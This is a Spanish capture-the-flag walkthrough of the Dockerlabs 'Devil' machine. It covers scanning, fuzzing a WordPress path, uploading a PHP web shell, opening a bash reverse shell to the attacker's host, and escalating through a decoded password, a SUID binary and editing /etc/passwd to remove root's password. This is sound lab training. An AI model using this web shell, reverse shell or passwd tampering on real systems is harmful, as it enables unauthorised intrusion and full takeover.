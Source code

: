 Máquina "Devil" de [Dockerlabs](https://dockerlabs.es)

Autor: [kaikoperez](https://github.com/kiket25)

Dificultad: Medio

![devil](./img/deviil.png)

# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Wed Sep 18 15:25:35 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-09-18 15:25:36 -03 for 15s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-generator: Drupal 10 (https://www.drupal.org)
|_http-title: Hackstry
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 18 15:25:51 2024 -- 1 IP address (1 host up) scanned in 15.43 seconds
```

Solo tenemos el puerto 80 abierto y `está corriendo apache httpd`, por lo que continuaremos desde el navegador.

#### Puerto 80:

![80](./img/80.png)

Si nos fijamos al final, se nos nombra wordpress y en el propio codigo fuente hay cosas de wordpress, el problema es que si intentamos entrar a cualquier cosa relacionada con wordpress, nos va a redirigir a la misma página. Como sabemos, si intentamos entrar a alguna de eso nos redirige, pero... ¿que pasa si entramos a una carpeta en la que se indexe el contenido? como por ejemplo "wp-content/". Si vamos desde el navegador veremos una página en blanco, pero en wordpress siempre hay una carpeta uploads ahí, por lo que si nos metemos veremos una carpeta extraña llamada "esteestudirectorio", a la cual si entramos veremos una nota en morse que dice lo siguiente:

```css
MEJOR PRUEBA HA HACER FUZING PERO NO EN ESTE DIRECTORIO PRUEBA CON UN DIRECTORIO ATRAS.
```

Por lo que ahora recurriremos a `dirb` para hacer lo que nos dice la nota (fuzzing en wp-content):

```css
dirb http://172.17.0.2/wp-content/ -w
```

 luego de que termine, veremos esto:

```css
---- Entering directory: http://172.17.0.2/wp-content/plugins/backdoor/ ----
+ http://172.17.0.2/wp-content/plugins/backdoor/index.php (CODE:200|SIZE:2135)                                                 
==> DIRECTORY: http://172.17.0.2/wp-content/plugins/backdoor/uploads/ 
```

Como vemos hay una carpeta "backdoor" en "./plugins/backdoor/" y tiene un index.php, por lo que si vemos desde el navegador, veremos lo siguiente:

![backdoor](./img/backdoor.png)

# INTRUSION

Viendo que podemos subir archivos, y que hay una carpeta "uploads" en el mismo directorio, podemos subir un php malicioso que nos permita ejecutar comandos, por ejemplo yo uso este:

```php
<?php
system($_GET['command']);
?>
```

Este lo que va a hacer es que cuando lo subamos y entremos en el, podamos ejecutar comandos en la url poniendo esto:

```css
http://172.17.0.2/<snip>/backdoor/uploads/shell.php?command=<comando>
```

por lo que una vez subido vamos a el archivo.

Estando ahi escucharemos con netcat por el puerto que queramos `nc -nlvp <puerto>`, luego ponemos esto en la url:

```css
<snip>?command=bash -c 'bash -i >%26 /dev/tcp/<ip>/<puerto> 0>%261'
```

y ya estaremos dentro.

# ESCALADA DE PRIVILEGIOS

### www-data

Hacemos un tratamiento de la tty y continuamos.

Ahora si vamos a `/home`, veremos que tenemos permisos de lectura en la home de andy. Ahora si ejecutamos `ls -Rla` en ese directorio, veremos lo siguiente:

```css
www-data@ad0c48cd34f2:/home$ ls -Rla andy/
andy/:
total 24
drwxr-xr-x 1 andy andy  154 Sep 11 23:00 .
drwxr-xr-x 1 root root   30 Sep 11 22:10 ..
-rwxr-xr-x 1 andy andy  491 Sep 18 20:25 .bash_history
-rwxr-xr-x 1 andy andy  220 Mar 31 10:41 .bash_logout
-rwxr-xr-x 1 andy andy 3771 Mar 31 10:41 .bashrc
-rwxr-xr-x 1 root root   13 Sep 11 23:00 .pista.txt
-rwxr-xr-x 1 andy andy  807 Mar 31 10:41 .profile
drwxr-xr-x 1 andy andy   38 Sep 11 22:33 .secret
-rwxr-xr-x 1 andy andy  867 Sep 11 22:31 .viminfo
drwxr-xr-x 1 root root   24 Sep 11 22:56 aquilatienes

andy/.secret:
total 20
drwxr-xr-x 1 andy andy    38 Sep 11 22:33 .
drwxr-xr-x 1 andy andy   154 Sep 11 23:00 ..
-rwxr-xr-x 1 andy andy   512 Sep 11 22:31 escalate.c
-rwxr-xr-x 1 andy andy 16176 Sep 11 22:33 ftpserver

andy/aquilatienes:
total 4
drwxr-xr-x 1 root root  24 Sep 11 22:56 .
drwxr-xr-x 1 andy andy 154 Sep 11 23:00 ..
-rwxr-xr-x 1 root root  73 Sep 11 22:55 password.txt
www-data@ad0c48cd34f2:/home$
```

Hay cosas interesantes:

`.pista.txt`

`/aquilatienes/password.txt`

`ftpserver`

`escalate.c`

Si leemos la pista y el password, veremos que nos dice que está en rot8000 (no pongo el password porque tiene un formato que no puedo copiar), por lo que si lo pasamos a texto, obtendremos esto:

```css
andy:laloca1
```

Por lo que ahora escalamos con `su andy` y su contraseña.

### Andy

Si vamos a `.secret/` y leemos el "escalate.c", veremos que se fija nuestro uid y el de lucas y luego si coincide nos genera un bash, y si ejecutamos el otro script podremos a escalar a lucas:

```css
andy@ad0c48cd34f2:~/.secret$ ./ftpserver 
UID actual: 1001
EUID actual: 1001
lucas@ad0c48cd34f2:~/.secret$ 
```

### Lucas

Siendo lucas, veremos que en su home hay una carpeta llamada ".game" y un archivo que tiene permisos SUID (porque está en rojo), y además el archivo .c que se usó para crearlo, el cual si leemos, nos genera una bash como root al poner el 7, por lo que lo ejecutamos y al poner un 7 escalaremos a root, pero el grupo sigue siendo andy, por lo que editamos con nano el `/etc/passwd` y borramos la "x" de root, y ahora seremos root totalmente:

![root](./img/root.png)

Gracias por leer...